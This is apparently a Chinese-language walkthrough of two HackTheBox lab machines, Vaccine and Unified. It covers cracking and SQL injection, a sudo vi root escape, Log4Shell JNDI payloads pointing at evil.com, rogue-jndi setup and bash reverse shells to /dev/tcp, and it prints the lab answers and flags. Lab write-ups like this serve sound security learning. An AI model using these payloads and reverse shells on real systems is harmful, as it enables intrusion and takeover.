

# Starting Point：

## Vaccine：

nmap扫一下：

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

先ftp尝试匿名登录，成功，找到`backup.zip`应该是源码备份了

这里`get`下载下来，`unzip`解压发现要密码。这里提示是要暴力破解了。

当你设置zip密码时，压缩软件会对你的密码算一个hash，放在zip文件头中。解密的时候压缩软件会先用这个hash先验证一下密码对不对，对了再去解密文件内容。

我们先用`zip2john`提取压缩包的密码hash出来，然后用`john the ripper`暴力破解

`zip2john backup.zip > zip_hash`

```
┌──(root㉿kali)-[/home/orange/HTB]
└─# john -w=/usr/share/wordlists/rockyou.txt zip_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (backup.zip)     
1g 0:00:00:00 DONE (2025-09-19 12:28) 25.00g/s 409600p/s 409600c/s 409600C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

解压出来一个index.php，一个style.css，关键代码如下

```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

这里看到md5想到绕过，但是是`===`，那么就md5碰撞

```
┌──(root㉿kali)-[/home/orange/HTB]
└─# john -w=/usr/share/wordlists/rockyou.txt --format=Raw-MD5 pass_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty789        (?)     
1g 0:00:00:00 DONE (2025-09-19 12:59) 33.33g/s 3340Kp/s 3340Kc/s 3340KC/s shunda..pogimo
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

注意这里要手动选择一下格式`--format=Raw-MD5`

输入admin和对应密码后跳转到dashboard.php，发现是一个检索功能，?search=xxx检索，这里尝试有无sql注入，输入Sandy能正常结果，输入Sandy ‘直接语法报错：

```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%Sandy'%' ^
```

这个报错格式是**PostgreSQL**，我们不能使用`#`进行注释了，用`--`，`Sandy'--`正常显示。后面就是确定列数，看哪里有回显，然后一步步注入。

这里直接用sqlmap试试，

`sqlmap -u 'http://10.129.234.126/dashboard.php?search=Sandy' --cookie='PHPSESSID=sbjnvs7o00vtsfsr7a0384bcpv'`

拿到shell之后先`bash -c "bash -i >& /dev/tcp/10.10.16.14/2333 0>&1"`反弹，然后再

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
#下面慎重使用
CTRL+Z
stty raw -echo
fg
export TERM=xterm
```

完善我们的shell环境。这里是找到postgresql的用户名密码

```
try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

```

这里是直接用这个用户名密码去ssh了。

然后就是提权：

```
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

vi编辑这个文件时候是root权限，我们直接命令模式下`:!/bin/bash`或者先`:set shell=/bin/sh`再`:shell`

直接逃逸出一个root权限的shell，结束。

```
Task 1

Besides SSH and HTTP, what other service is hosted on this box?

***
ftp

Hide Answer
Task 2

This service can be configured to allow login with any password for specific username. What is that username?

********s
anonymous

Hide Answer
Task 3

What is the name of the file downloaded over this service?

******.**p
backup.zip

Hide Answer
Task 4

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

*******n
zip2john

Hide Answer
Task 5

What is the password for the admin user on the website?

********9
qwerty789

Hide Answer
Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection?

--**-****l
--os-shell

Hide Answer
Task 7

What program can the postgres user run as root using sudo?

**
vi

Hide Answer
Submit Flag

Submit user flag

********************************
ec9b13ca4d6229cd5cc1e09980965bf7

Hide Answer
Submit Flag

Submit root flag

********************************
dd6e058e814260bc70e9bbdef2715849

Hide Answer
```

## Unified:

首先nmap简单扫描：

```
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
```

`-sV -sC`尝试看到更多信息：

浏览器查看一下8443端口，提示要https连接。连接上后页面如下：


可注意到标题是UniFi Network  版本是6.4.54。上网搜索发现这个版本使用的 Apache Log4j 组件存在 **CVE-2021-44228**，即log4shell漏洞。



将这个首先要从JNDI注入讲起。JNDI全称是java命名和目录接口，它的作用是将服务名称和对象关联，使得开发人员可以统一通过服务名称访问对象。比如DNS服务，LDAP服务，RMI等都可以通过JNDI API统一处理。

JNDI本质是一个查询服务，用LDAP，RMI（面向对象的RPC实现）等查询服务名对应的对象。注入就产生在攻击者控制了查询地址的时候，让程序去攻击者控制的如LDAP/RMI服务器查询对象，那么恶意服务器返回响应，指向一个恶意类，受害者的java程序就会去这个URL**下载并执行这个恶意类**，从而导致远程代码执行（RCE）。

**Log4jshell和反序列化都是实现JNDI注入的手段。**

Log4j是一个日志记录的库，它会把程序运行的信息（包括用户输入！）写到日志文件里。比如攻击者在登录框的用户名写一个恶意的JNDI查询如`${jndi:ldap://evil.com/x}`，Log4j会把这个查询记录到日志里。而**Log4j 2.x 版本中的 JNDI 查找功能缺乏必要的安全验证**，也就是他会直接执行日志中记录的JNDI查询，触发了JNDI注入。

java反序列化也可以实现JNDI注入，比如fastjson库，可以通过指定 `@type` 属性，告诉程序这个JSON字符串**应该被还原成哪种具体的Java类**。早期版本的Fastjson在处理这个 `@type` 时，会**自动去加载并实例化指定的类**。如果这个类位于某个远程的JNDI资源上，它就会**触发JNDI查询**！比如：

```
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap(rmi)://evil.com/exploit",
  "autoCommit": true
}
```

Apache shiro也是一个常用的java库，它也能也用JNDI注入。简单概括就是它比fastjson直接序列化多了一个加密功能，但是**密钥是硬编码的，且公开的**（v-1.2.4）。这是有点搞笑了。

详细来说他有个Remember Me功能，是把用户信息序列化再加密放在Cookie里面，当作身份凭证。服务器拿到cookie先解密看看，成功就认为没有被篡改，然后就反序列化对象。因为我们能知道密钥，所以可以直接改序列化对象。我们既可以直接靠类似php的魔术方法执行一些恶意代码，也可以做一个JNDI查询，实现JNDI注入。

这里说是加密，但是它其实是签名的功能。只是内部用的是对称密码（AES），只有一个密钥，就也叫加密了。实际上服务端只判断能不能解密，不关心内容，也就是只看有没有被篡改。

所以总结，JDNI注入是控制查询发往恶意服务器，返回恶意类。java会自动加载，执行恶意代码。可以通过log4j2的日志记录漏洞写一个JNDI查询，也可以借助fastjson的@type，shiro的remember me这种反序列化时候的实现发起恶意JNDI查询。反序列化因此通常不直接执行命令，而是通过JNDI注入**间接加载远程恶意类**，更加灵活可靠。这种反序列化+JNDI注入的组合是近几年攻击java应用最主流的手段。


讲完了原理我们回到靶机，根据搜索。JDNI注入点是 `/api/login` POST数据中的remember字段。我们登录时候勾选remember me，就会往`/api/login`发送含json的数据包。为了验证漏洞存在的真实性，我们抓包写一个JNDI查询，并用抓包工具比如tcpdump监控流量，看看是否执行查询了：

原始数据包：

修改后：


因为我们的JNDI查询的`{}`会破坏JSON结构，所以这里要加`"`。

然后tcpdump监听一下389端口，因为ldap对应的端口就是389：


可以看到，发送完数据包以后成功监听到ldap连接请求。

我们首先需要一个工具提供ldap服务，这样才能指定JNDI查询结果到我们的恶意类。

可以使用`rogue-jndi`，`git clone`下载。但是这是一个java程序，我们需要JDK环境，kali自带有不用担心。但是我们还需要一个工具`maven`来构建这个工具。

```
sudo apt install maven
#检查是否安装成功
mvn -v   
#在/roguo-jndi下
mvn package
```

我们payload肯定是反弹shell使用经典指令`bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1`

但是为了特殊字符被Java运行时、Bash或中间的网络设备错误地解析，导致命令执行失败，我们需要进行base64编码。可以使用工具如cyberchef，也可以直接在命令行编码：

`echo 'bash -c bash -i >&/dev/tcp/{Your IP Address}/{A port of your choice} 0>&1' | base64`

然后使用工具:

`java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"`

这个工具会自动生成一个执行--command参数后指令的恶意类。受害靶机拿到这个解析到的恶意类并执行，就成功反弹了一个shell

这里有一个bash -c后面要不要引号的问题。第二个使用工具时候应该是不要的，相应的-c后面不能再有空格了，这样才会被当成一个完整字符串。第一个反弹的我觉得还是要加引号。

启动rogue-jndi后，如下：

```
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://10.10.16.34:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://10.10.16.34:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.34:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://10.10.16.34:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://10.10.16.34:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://10.10.16.34:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://10.10.16.34:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://10.10.16.34:1389/o=reference to artsploit.controllers.RemoteReference
```

这时候查询就要带上端口了，因为这里是在1389开的服务，而不是默认的389。同时不能用whatever了，要用这里预定义的路径比如`/o=tomcat`


成功拿到shell，接着我们需要引入pty完善操作环境。因为这里靶机没有python环境，所以我们使用一个古老的方法`script /dev/null -c bash`

`script`原本用于**录制终端会话**（将所有输入和输出保存到一个指定的脚本文件），关键在于**它会为其运行的命令分配一个新的伪终端（PTY）**。-c后面的bash就是要运行的命令，/dev/null是指定保存到的文件，我们不需要保存就指定到这个黑洞。

在`/home/michael/user.txt`找到userflag为`6ced1a6a89e666c0620cdb10262ba127`

然后就是提权。

UniFi Network 控制器通常使用 **MongoDB 作为数据库**，并且**该数据库服务（通常在端口27117上监听）有时配置为无需认证即可访问**

```
unifi@unified:/home/michael$ ps aux | grep mongo
ps aux | grep mongo
unifi         67  0.3  4.1 1101700 85044 ?       Sl   10:07   0:11 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       1628  0.0  0.0  11468  1060 pts/0    S+   11:01   0:00 grep mongo
```

我们使用`mongo`工具进行连接

```
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

27117是mongoDB服务运行的端口，ace是unifi的默认数据库名字，--eval是执行后面的命令

在MongoDB的 `ace` 数据库中，用户信息存储在 `admin` 集合中。攻击者主要有三种方式操作管理员账户：

- **提取并破解密码哈希**：直接查询 `db.admin.find().forEach(printjson);` 获取管理员的密码哈希（通常是SHA-512），然后尝试使用工具（如Hashcat）进行破解。
- **修改现有管理员密码**：使用 `mkpasswd`（通常包含在 `whois` 软件包中）生成一个新密码的SHA-512哈希值，然后使用MongoDB的 `update` 命令替换原有管理员的 `x_shadow` 字段值。

```
db.admin.update({"_id": ObjectId("具体管理员ID")}, {$set:{"x_shadow": "新生成的密码哈希"}})
```

- **创建新的影子管理员**：直接在 `admin` 集合中插入一个新的管理员用户文档，为其设置一个已知密码的哈希。

```
db.admin.insert({ "email" : "[email protected]", "name" : "恶意管理员", "x_shadow" : "生成的密码哈希" })
```

我们这里用第二种方法，使用mkpasswd生成密码哈希：

```
mkpasswd -m sha-512 Password1234
```

然后修改管理员密码：

```
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})
```

然后直接网页用管理员账户密码登录，unifi管理页面会显示ssh的用户密码，为`root@NotACrackablePassword4U2022`

直接ssh登录，在/root/root.txt中找到rootflag为`e50bc93c75b634e4b272d2f771c33681`
